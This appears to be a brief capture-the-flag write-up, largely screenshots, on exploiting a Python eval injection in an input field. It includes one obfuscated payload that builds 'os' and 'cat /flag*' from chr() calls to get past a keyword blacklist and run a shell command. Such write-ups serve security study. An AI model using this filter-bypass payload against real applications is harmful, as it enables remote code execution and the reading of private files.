 ![image](https://github.com/user-attachments/assets/7a568c81-e9b0-41f4-82f9-7513a0f7cbb9)


Since the input field is using eval funtion, lets start with a simple payload.

![image](https://github.com/user-attachments/assets/bf9d328e-e89f-497d-88da-9e38870abfea)

Hurray! Its working!. Lets try with a RCE payload now.
![image](https://github.com/user-attachments/assets/9aaa6fa9-d24b-470f-a4d4-777c5517f9ad)

![image](https://github.com/user-attachments/assets/1ab45d65-f190-4418-ae64-3794c402b2b4)
![image](https://github.com/user-attachments/assets/7d1039da-b60a-4a3a-86bc-3455b8ec58b2)

ok now we know its blacklisting some keywords, lets work on a payload that can bypass this filter.


__import__(chr(111)+chr(115)).popen(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(42)).read()
![image](https://github.com/user-attachments/assets/129397ac-4d3b-4ad5-91b5-262dc1dcdf11)
